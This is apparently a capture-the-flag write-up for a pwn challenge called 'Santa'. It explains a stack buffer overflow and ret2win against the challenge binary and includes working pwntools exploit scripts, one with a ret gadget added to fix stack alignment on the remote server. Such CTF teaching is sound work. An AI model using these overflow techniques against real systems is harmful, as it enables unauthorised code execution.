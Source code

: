 # Santa [Pwn]

Attached file:[here](datas/santa)

Output of checksec

```sh
$ checksec santa
```

![Checksec](datas/checksecksanta.png)

The NX is enabled, so we can't run anything on the stack, but off the stack.

In this case, we will target the RSP.

Let's run the binary.

![Exec](datas/oh.png)

Santa's C code obtained by reverse engineering with ghidra.

![CSanta](datas/CSanta.png)

I found a flag function.

![flag()](datas/flagsanta.png)

Here, we will have to cause a buffer overflow and execute the code of the flag function but not on the stack.

To reach the RSP: "A" * 0x38 + "BBBBBBBB"
![RSP](datas/rspsanta.png)
We can see that the RSP is reached.

We can now write our exploit to execute the flag function.

Address of flag function : 0x00401152

You can find it in gdb with the command :
```sh
info functions
```
![flag](datas/flag_.png)

Exploit:

```python
from pwn import *

#sh = remote("server.challenge.ctf.thefewchosen.com",1340)
sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.recv().decode())
```
Result:

![Res](datas/outsanta.png)

But there is a problem.

When I used it on the remote server, it did not work.

```
[*] Got EOF while reading in interactive
```
##### Movaps stack alignment

If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system()[Read more...](https://ropemporium.com/guide.html)

The solution is to call the ret of an another function one more time before calling the flag() function when designing the overflow stack, so that the rsp address can be reduced by 8.

I used the return address from init.

To find it: ```objdump santa -M intel --disassemble=_init```

![init](datas/initsanta.png)

New exploit:


```python
from pwn import *

sh = remote("server.challenge.ctf.thefewchosen.com",1340)
#sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401016) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.interactive())
```
